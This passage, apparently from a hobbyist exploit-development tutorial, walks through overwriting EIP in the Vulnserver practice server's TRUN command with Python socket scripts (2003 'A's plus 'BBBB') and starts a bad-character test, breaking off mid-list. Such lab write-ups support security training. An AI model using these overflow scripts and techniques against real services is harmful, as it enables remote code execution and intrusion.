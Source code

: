 Cool we got exact match was found at 2003 bytes. This is really awesome lol i feel so cool We can now try to control the EIP, which will be critical later in our exploit.

####  `Day 5`

`OVERWRITING THE EIP`

Boom now that we know the EIP is after 2003 bytes cool let modify our code to confirm if we really have control over the EIP.

```
#!/usr/bin/python 
import sys, socket
 
shellcode = "A" * 2003 + "B" * 4


try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.16.139.133',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "Error Connecting To Server" 
        sys.exit()
```

![Image](https://imgur.com/OmrprZB.png)

So, now the shellcode variable is back to a bunch of A’s and four B’s. What we are doing here is sending 2003 A’s in an attempt to reach, but not to overwrite the EIP. 

Then we are sending four B’s, which should overwrite the EIP with 42424242. Remember, the EIP has a length of four bytes, so if we overwrite successfully, we will be in full control and well on our way to root. Let’s execute the code and have a look

![Image](https://imgur.com/Au86j6a.png)


Boom our EIP have changed to 42424242 that confirm we have totally control over the EIP.

####  `Day 6`

`FINDING BAD CHARACTERS`

So some certain byte characters can cause issues in the development of exploits. We must run every byte through the Vulnserver program to see if any characters cause issues. By default, the null byte(x00) is always considered a bad character as it will truncate shellcode when executed.

To find bad characters in Vulnserver, we can add an additional variable of “badchars” to our code that contains a list of every single hex character. It should look something like this;

```
#!/usr/bin/python 
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
```